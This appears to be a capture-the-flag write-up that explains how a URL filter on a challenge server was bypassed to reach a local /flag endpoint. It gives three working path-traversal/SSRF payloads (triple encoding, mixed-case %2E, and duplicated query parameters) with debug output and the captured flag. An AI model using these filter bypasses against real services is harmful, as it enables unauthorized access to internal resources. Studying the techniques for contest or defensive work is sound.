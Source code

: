 We have to access the `http://localhost:9000/flag` to get flag.
But the common symbols to do path traversal was blocked：`.`, `2e`

Even the unicode bypass char was blocked：`┮`, `Ｎ`
(from Orange Tsai：[A New Era Of SSRF](https://www.blackhat.com/docs/us-17/thursday/us-17-Tsai-A-New-Era-Of-SSRF-Exploiting-URL-Parser-In-Trending-Programming-Languages.pdf))

It uses normalizeUrl() to encode unicode character, so the unicode failure seems not working here.

```
Origin:    http://localhost:9001/documents/ＮＮ
Normalize: http://localhost:9001/documents/%EF%BC%AE%EF%BC%AE
```

And I don't know why to block the char `Ｅ` XDDDD

After few tries on the local, we can bypass easily by triple encoding、request with object type.
You could even just use `%2E` because of the block char `%2e` wasn't case sensitive.

```
### console.log for test ###

console.log('Origin:    http://localhost:9001/documents/' + document_name)
console.log('Normalize: ' + normalizeUrl('http://localhost:9001/documents/' + document_name))
console.log('Typeof:    ' + typeof(document_name))
console.log('indexOf(.):' + document_name.indexOf('.'))

######

#1 bypass with triple encoding
Request args：document_name_get=%25%32%45%25%32%45/flag
Origin:    http://localhost:9001/documents/%2E%2E/flag
Normalize: http://localhost:9001/flag
Typeof:    string
indexOf(.):-1

#2 bypass with case sensitive
Request args：document_name_get=%252E%252E/flag
Origin:    http://localhost:9001/documents/%2E%2E/flag
Normalize: http://localhost:9001/flag
Typeof:    string
indexOf(.):-1

#3 bypass with object
Request args：document_name_get=foo&document_name_get=/../../flag
Origin:    http://localhost:9001/documents/foo,/../../flag
Normalize: http://localhost:9001/flag
Typeof:    object
indexOf(.):-1
```

`ASIS{68aaf2e4dd0e7ba28622aaed383bef4f}`

### Solution - ZH-TW
